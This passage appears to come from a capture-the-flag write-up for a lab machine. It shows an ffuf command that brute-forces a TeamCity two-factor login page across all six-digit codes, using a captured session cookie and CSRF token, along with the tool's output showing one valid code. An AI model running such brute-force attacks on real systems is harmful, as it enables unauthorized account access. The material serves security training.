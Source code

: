 ```bash
❯ ffuf -c -w /usr/share/seclists/Fuzzing/6-digits-000000-999999.txt \
-u https://teamcity-dev.coder.htb/2fa.html \
-H 'Host: teamcity-dev.coder.htb' -H 'Content-Length: 15' -H 'X-Tc-Csrf-Token: 5595f039-460c-42a0-8a29-ccbb2d3a40a3' -H 'Content-Type: application/x-www-form-urlencoded;charset=UTF-8' -H 'Accept: application/json' -H 'X-Teamcity-Client: Web UI' -H 'X-Requested-With: XMLHttpRequest' -H 'Origin: https://teamcity-dev.coder.htb' \
-b '__test=1; TCSESSIONID=883D324096CA281F21119BDA94E2CFC0' \
-d "password=FUZZ" \
-o ffuf_2fa_brute.md -of md -mc all -fc 404 -fs 89

        /'___\  /'___\           /\___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : https://teamcity-dev.coder.htb/2fa.html
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/6-digits-000000-999999.txt
 :: Header           : X-Requested-With: XMLHttpRequest
 :: Header           : Origin: https://teamcity-dev.coder.htb
 :: Header           : Cookie: __test=1; TCSESSIONID=883D324096CA281F21119BDA94E2CFC0
 :: Header           : Host: teamcity-dev.coder.htb
 :: Header           : X-Tc-Csrf-Token: 5595f039-460c-42a0-8a29-ccbb2d3a40a3
 :: Header           : Accept: application/json
 :: Header           : X-Teamcity-Client: Web UI
 :: Header           : Content-Length: 15
 :: Header           : Content-Type: application/x-www-form-urlencoded;charset=UTF-8
 :: Data             : password=FUZZ
 :: Output file      : ffuf_2fa_brute.md
 :: File format      : md
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response status: 404
 :: Filter           : Response size: 89
________________________________________________

...snip...
130102                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 136ms]

```

After using the 2FA code, I was redirected to TeamCity's projects page where I can inspect its builds.
